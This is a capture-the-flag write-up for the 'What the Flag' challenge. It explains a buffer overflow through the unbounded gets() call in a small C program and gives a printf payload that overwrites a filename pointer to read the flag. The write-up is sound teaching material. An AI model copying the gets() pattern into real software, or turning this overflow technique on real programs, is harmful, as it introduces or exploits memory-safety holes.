 # What the Flag Writeup
##### By sdamashek of TJ CSL

*Note: This problem could have been solved by simply symlinking `not_the_flag.txt` to `/home/what_the_flag/flag.txt` and supplying the normal password without using buffer overflows, but below I show the intended solution.*

In What The Flag, the vulnerable part of the program was pretty easy to find:

```c
puts("Enter your password too see the message:");
gets(data.password);
```

Because `gets` does not perform bounds checking, and will read until `EOF`, we can buffer overflow `data.password`. It's helpful to know the format of `data` here. `data` is a `message_data` struct:

```c
struct message_data{
    char message[128];
    char password[16];
    char *file_name;
};
```

The program, after the `gets`, checks if `data.password` is `"1337_P455W0RD"`. We need to include that in our payload, followed by a null byte, and then two filler characters because `password` is 16 bytes. However, we don't want to read `"not_the_flag.txt"`:

```c
data.file_name = "not_the_flag.txt";
// gets, password checking
read_file(data.message, data.file_name, sizeof(data.message));
```

We want to read `flag.txt`, not `not_the_flag.txt`. However, because of how C strings work, we can just change the `file_name` pointer to point to the `f`, so the string reads `flag.txt`. `objdump -s what_the_flag` shows us the addresses of the string:

```
 8048768 20726561 64206669 6c653a20 2573006e   read file: %s.n                    
 8048778 6f745f74 68655f66 6c61672e 74787400  ot_the_flag.txt.
```

From this, we can tell that the `f` in `flag.txt` is located at `0x0804877f`. So our final payload/exploit looks like this:

```bash
printf "1337_P455W0RD\x00aa\x7f\x87\x04\x08" | ./what_the_flag
Enter your password too see the message:                                          
Congratulations! Here is the flag: who_needs_%eip
```
